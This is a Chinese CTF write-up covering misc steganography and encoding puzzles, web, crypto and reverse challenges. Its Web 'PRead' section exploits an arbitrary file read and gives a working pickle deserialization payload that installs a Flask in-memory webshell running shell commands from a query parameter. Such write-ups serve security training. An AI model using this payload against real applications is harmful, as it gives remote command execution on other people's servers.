







_**选手：Aura**_

# <font style="color:#1DC0C9;">Misc</font>
## <font style="color:#117CEE;">B</font><font style="color:#000000;">lackdoor</font>
唯一正常的题目

小明的网站被黑了，你能帮小明分析一下网站后门吗？   
Webshell后门的密码（已经做了md5加密）即为答案。   
FLAG格式：YLCTF{后门密码}  

直接丢入 D 盾扫，扫到后门。


打开看一眼，找到后门密码。


## <font style="color:#117CEE;">T</font><font style="color:#000000;">inted</font>


给了这张图片，用画图软件打开，去看颜色的 hex 值，按顺序取出所有颜色 hex 值的后两位，然后拖入 cyberchef 解。

```plain
67657249664a6a42525a663152676274524c523954644a75526375755374577551674a74695a573954674a7a54645276544c69755274627170623535
```


## <font style="color:#117CEE;">f</font><font style="color:#000000;">igure</font>
:::tip
 奇怪的数据，请你来破译一下  

:::


给了一个很长的 hex，发现是倒过来的 PNG，reverse 一下解出来一张 PNG。


接下来根据点的坐标，按照 x1 x2 x3 ... xn yn ... y3 y2 y1 的顺序拼接坐标。

```plain
X: 52 83 102 82 121 76 106 112 69 74 102 106 105 119 78 101 71 66 119 87 49 115 55 113 114 116 111 68 88 100 72 107 109 85 104 85 81         
Y: 50 115 120 68 86 122 77 84 106 99 105 84 107 120 71 106 120 112 57 49 82 66 71 65 89 77 103 84 89 76 56 90 102 101 51 109 89                 


enc: 4SfRyLjpEJfjiwNeGBwW1s7qrtoDXdHkmUhUQYm3efZ8LYTgMYAGBR19pxjGx


```

接下来是套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套套娃。

栅栏 block=13，然后如下图。


## <font style="color:#117CEE;">C</font><font style="color:#000000;">heckImg</font>
:::tip
 你这又是隐写又是编码的，我看不懂啊  

:::


图片很大，使我的电脑卡顿。

stegsolve 看一眼，有个通道的上半部分全乱，很有问题，用脚本把这个通道提取出来。


```python
from cv2 import *
import cv2
img=cv2.imread('flag.png')
src_value=cv2.cvtColor(img, cv2.COLOR_BGR2RGB)
a, b, c = cv2.split(src_value)   #使用cv.split分离通道
cv2.imwrite('a.png', (a % 2) * 255)   #对三个通道中的数据分别根据奇偶做二值化处理，并分别保存为图片
cv2.imwrite('b.png', (b % 2) * 255)
cv2.imwrite('c.png', (c % 2) * 255)

```

把提取出来的图丢入 stegsolve，按照如下参数配置，可以看到很长的 hex 串。


仔细观察，发现将这个 hex 串每四位翻转，再解可以得到一张 png。

```python
with open("output","r") as f:
    enc = f.read()
with open("rev","w") as f:
    for i in range(0,len(enc),4):
        f.write(enc[i:i+4][::-1])


```

得到的 png 没什么东西，用 binwalk 分离一下可以得到一堆怪文件，点开第一个，看到类似 DNA 的东西，是 DNA 编码。


找个脚本跑一下，得到密文。

```python
mapping = {

    'AAA': 'a',
    'AAC': 'b',
    'AAG': 'c',
    'AAT': 'd',
    'ACA': 'e',
    'ACC': 'f',
    'ACG': 'g',
    'ACT': 'h',
    'AGA': 'i',
    'AGC': 'j',
    'AGG': 'k',
    'AGT': 'l',
    'ATA': 'm',
    'ATC': 'n',
    'ATG': 'o',
    'ATT': 'p',
    'CAA': 'q',
    'CAC': 'r',
    'CAG': 's',
    'CAT': 't',
    'CCA': 'u',
    'CCC': 'v',
    'CCG': 'w',
    'CCT': 'x',
    'CGA': 'y',
    'CGC': 'z',
    'CGG': 'A',
    'CGT': 'B',
    'CTA': 'C',
    'CTC': 'D',
    'CTG': 'E',
    'CTT': 'F',
    'GAA': 'G',
    'GAC': 'H',
    'GAG': 'I',
    'GAT': 'J',
    'GCA': 'K',
    'GCC': 'L',
    'GCG': 'M',
    'GCT': 'N',
    'GGA': 'O',
    'GGC': 'P',
    'GGG': 'Q',
    'GGT': 'R',
    'GTA': 'S',
    'GTC': 'T',
    'GTG': 'U',
    'GTT': 'V',
    'TAA': 'W',
    'TAC': 'X',
    'TAG': 'Y',
    'TAT': 'Z',
    'TCA': '1',
    'TCC': '2',
    'TCG': '3',
    'TCT': '4',
    'TGA': '5',
    'TGC': '6',
    'TGG': '7',
    'TGT': '8',
    'TTA': '9',
    'TTC': '0',
    'TTG': ' ',
    'TTT': '.'

}

encode_string = 'OME'

decode_string = 'GCAGTTCTGCTGGGGGGTGTACTAGAGTGACTCGTTGCAGTTGTATACGCATATCTGGTGGGGGTATCCCTTGATCGTGCACTGTCCTAAGCAGCAGAAGAGTCCCTGGCAGCTCTATAAGATCTTCTAGTGGGGGCTGTAGCAGAGGTTCGGGTTGAGGCTCGTGTCGCAGTTGCACTGTCCGTCTATGTGGCAGTTGACGTGTAAGGTTATTAAGAAGGTGAGGTTGTAGTTGTAGCTGATTATGATCTTGAGGGGGCAGCTGAGTATGCCCTCGAGGCTGCAGACGATGGGTCCCTTGTAGGGGCATAAGATGTTCGTGTGGTAGTCGTAGAGGCACTTGCCGTTGCGGTAGCACTTGCAGCTCTTCTGGAAGTTTATGTTGCAGTTGAACTGGCGGTAGATTAAGATGCGTATCTCGCGGTTGTAGTCGATGCTCTCGTGGGGGGGGTAGAAGAGTGAGCACTGTAGGCTTCCGCCGCATAGTCCCTCCTGGTCGCATAAGCATGACTGCTGGGGGTCGTACTAGAAGATCTCCTTGCGGTGTCCGAGGATCGGTCGCTGCTAGTCGCAGTTGCAGTTGCTCTGTAAGTGTCCCTAGAGCTTGAAGTGTAGGTTGCACGTGAGGGTGATCTGGCGGGTGTAGGTGAGGCTGCACTGTCCGTCGCAGAAGCACGGTATGTGTGCGCGTCCGTGGATGTTCGGGTTCGGGTGGTAGCCGCACTTCTCCTTGCGGGTGCAGAAGATCTTGCGCTCGAGGTCGGTTGA'

inverted_mapping = dict(zip(mapping.values(), mapping.keys()))


def decode_dna(decode_string):
    pieces = []
    for i in range(0, len(decode_string), 3):
        piece = decode_string[i:i + 3]
        # pieces.append()
        pieces.append(mapping[piece])

    return "".join(pieces)


def encode_dna(encode_string):
    pieces = []
    for i in encode_string:
        piece = inverted_mapping[i]
        pieces.append(piece)
    return "".join(pieces)


print('Decoded String is:- ' + decode_dna(decode_string))
#print('Encoded DNA String is:- ' + encode_dna(encode_string))

```

```plain
KVEEQRSCI5DVKVSXKZEUQS2FJBKE2WKKGI2EKNCWJFCUQNSKIVAVINBTKVKE2TZUKVHUWRZWGRIVSVSNJZJFIQKNIZLDINKHJQ2FSQKWJVBUSTSIKFLVMSKFKNFEGVZVKVGEMSJWJMZDMVSTJNDUQQSGI5KEYN2LKY2DETKWK5EEQTSCGJDFMU2IJA3ECTKVKVNEWU2CIFGUYVKBIRJEMRSRINKE2TKGKAZU6M2UJVAVAUSLKFDFMRKGJFMDITR5
```

接下来又是套娃，不过 ciphey 也可以跑出来，嗯，很不错。

base32->ROT13->base32->base85->base58->base62


# <font style="color:#1DC0C9;">Web</font>
## <font style="color:#117CEE;">4</font><font style="color:#000000;">04</font>
看一下 js，找到下一步，访问 /f12g.php。


抓个包看看，找到一串 base64，解一下。




访问 /ca.php。



用 requests 库写个脚本交互即可，要开启 session。


```python
import requests
import re
import math
session = requests.Session()
# 发送GET请求获取网页内容
url = "http://challenge.yuanloo.com:43736/ca.php"  # 替换为实际的URL
response = session.get(url)
# 检查响应状态码
if response.status_code == 200:
    # 获取网页内容
    html_content = response.text

    # 使用正则表达式提取数学表达式
    # 假设表达式是以连续的格式给出的
    expressions = re.findall(r'\$(temp\d+)\s*=\s*([^;]+);', html_content)

    # 初始化变量
    results = {}

    # 遍历所有提取的表达式
    for temp_var, expr in expressions:
        # 替换表达式中的函数名称为实际的math库函数
        print(expr)
        expr = expr.replace('log', 'math.log').replace('sqrt', 'math.sqrt').replace('sin', 'math.sin').replace('cos', 'math.cos').replace('pow', 'pow').replace('tan', 'math.tan').replace('exp', 'math.exp').replace('$','')
        if "temp1" in expr:
            expr = expr.replace("temp1", str(results["temp1"])).replace("temp2", str(results["temp2"]))
        # 计算每个表达式的值
        try:
            result = eval(expr)
            results[temp_var] = round(result, 2)
        except Exception as e:
            print(f"Error evaluating expression '{expr}': {e}")

    # 打印结果
    for temp_var, result in results.items():
        print(f"{temp_var}: {result}")

    # 假设最终答案是 $temp4，你需要根据实际情况调整
    answer = results["temp3"]+results["temp4"]
    print(answer)
    user_answer = answer

    # 发送POST请求以user_answer参数返回答案
    post_url = "http://challenge.yuanloo.com:43736/ca.php"  # 替换为实际的提交URL
    payload = {
        "user_answer": str(user_answer)
    }
    post_response = session.post(post_url, data=payload)

    # 检查POST响应状态码
    if post_response.status_code == 200:
        print("Answer submitted successfully.")
        print(post_response.text)
    else:
        print("Failed to submit the answer.")
else:
    print("Failed to retrieve the webpage")
```


## <font style="color:#117CEE;">P</font><font style="color:#000000;">Read</font>


先导出笔记看看，是个 pkl 文件，抓包看看，尝试修改路径，发现可以任意文件读取。



尝试读取源码，成功。



```python
import os
import pickle
from flask import Flask, render_template, request, redirect, url_for, flash, jsonify, send_file
from datetime import datetime
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.secret_key = 'MySe3re7K6y'
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 16 * 1024 * 1024  # 16MB max-limit

# 确保上传文件夹存在
os.makedirs(app.config['UPLOAD_FOLDER'], exist_ok=True)


class Note:
    def __init__(self, title, content):
        self.id = datetime.now().strftime('%Y%m%d%H%M%S')
        self.title = title
        self.content = content
        self.created_at = datetime.now()


class NoteManager:
    def __init__(self):
        self.notes = []
        self.file_name = "notes.pkl"
        self.file_path = "./notes/"
        self.file = os.path.join(self.file_path, self.file_name)
        self.load_notes()

    def add_note(self, title, content):
        note = Note(title, content)
        self.notes.append(note)
        self.save_notes()
        return note

    def get_note(self, note_id):
        for note in self.notes:
            if note.id == note_id:
                return note
        return None

    def update_note(self, note_id, title, content):
        note = self.get_note(note_id)
        if note:
            note.title = title
            note.content = content
            self.save_notes()
            return True
        return False

    def delete_note(self, note_id):
        self.notes = [note for note in self.notes if note.id != note_id]
        self.save_notes()

    def save_notes(self):

        with open(self.file, 'wb') as f:
            pickle.dump(self.notes, f)

    def load_notes(self):
        if os.path.exists(self.file):
            with open(self.file, 'rb') as f:
                self.notes = pickle.load(f)

    def import_notes(self, file_path):
        try:
            with open(file_path, 'rb') as f:
                imported_notes = pickle.load(f)
            self.notes.extend(imported_notes)
            self.save_notes()
            return len(imported_notes)
        except Exception as e:
            print(f"Import error: {e}")
            return 0


note_manager = NoteManager()


@app.route('/')
def index():
    return render_template('index.html', notes=note_manager.notes)


@app.route('/add', methods=['GET', 'POST'])
def add_note():
    if request.method == 'POST':
        title = request.form['title']
        content = request.form['content']
        note_manager.add_note(title, content)
        flash('笔记已添加成功', 'success')
        return redirect(url_for('index'))
    return render_template('add_note.html')


@app.route('/edit/<note_id>', methods=['GET', 'POST'])
def edit_note(note_id):
    note = note_manager.get_note(note_id)
    if request.method == 'POST':
        title = request.form['title']
        content = request.form['content']
        if note_manager.update_note(note_id, title, content):
            flash('笔记已更新成功', 'success')
            return redirect(url_for('index'))
        flash('更新笔记失败', 'error')
    return render_template('edit_note.html', note=note)


@app.route('/delete/<note_id>')
def delete_note(note_id):
    note_manager.delete_note(note_id)
    flash('笔记已删除成功', 'success')
    return redirect(url_for('index'))


@app.route('/export_notes', methods=['GET'])
def export_notes():
    filename = request.args.get("filename")
    file_path = os.path.join(note_manager.file_path, filename)
    return send_file(file_path, as_attachment=True, download_name="notes_export.pkl")


@app.route('/import_notes', methods=['POST'])
def import_notes():
    if 'file' not in request.files:
        flash('没有文件', 'error')
        return redirect(url_for('index'))
    
    file = request.files['file']
    if file.filename == '':
        flash('没有选择文件', 'error')
        return redirect(url_for('index'))
    if file:
        filename = secure_filename(file.filename)
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)
        imported_count = note_manager.import_notes(file_path)
        os.remove(file_path)  # 删除临时文件
        if imported_count > 0:
            flash(f'成功导入 {imported_count} 条笔记', 'success')
        else:
            flash('导入失败，请检查文件格式', 'error')
        return redirect(url_for('index'))


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

添加笔记没有做任何过滤，可以直接打 flask 内存马。

```python
import pickle
import pickletools
import os
class Shell():
    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('aura')).read())",))
shell = Shell()
data = pickle.dumps(shell)
with open("data.pkl","wb") as f:
    f.write(data)


```


# <font style="color:#1DC0C9;">Crypto</font>
## <font style="color:#117CEE;">Q</font><font style="color:#000000;">WQ</font>
```plain
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');


```

给了一堆颜文字，是 AAencode，用在线网站解一下。




base32。


# <font style="color:#1DC0C9;">Reverse</font>
## <font style="color:#117CEE;">e</font><font style="color:#000000;">zmaze</font>
不太一样的迷宫，仔细分析逻辑，只要朝一个方向走就会一直走到底，需要注意这个细节。

由于地图很小，手玩就出了。

```plain
1111100111
1111110111
1110100111
1110001111
1F10111111
1010001111
1011100111
1011101111
1011101011
1000000011
1111111111

dsasasdsaw
```


## <font style="color:#117CEE;">C</font><font style="color:#000000;">ASE</font>
类似 pwn 题的猜随机数。

加密流程就是先对 flag 进行 ROT13，然后以当前时间戳为种子，每一位异或一个随机数。

既然给了 libc，那就直接远程交互，把随机数和密文都取出来，然后本地玩就行了。

```python
#!/usr/bin/env python
# coding=utf-8
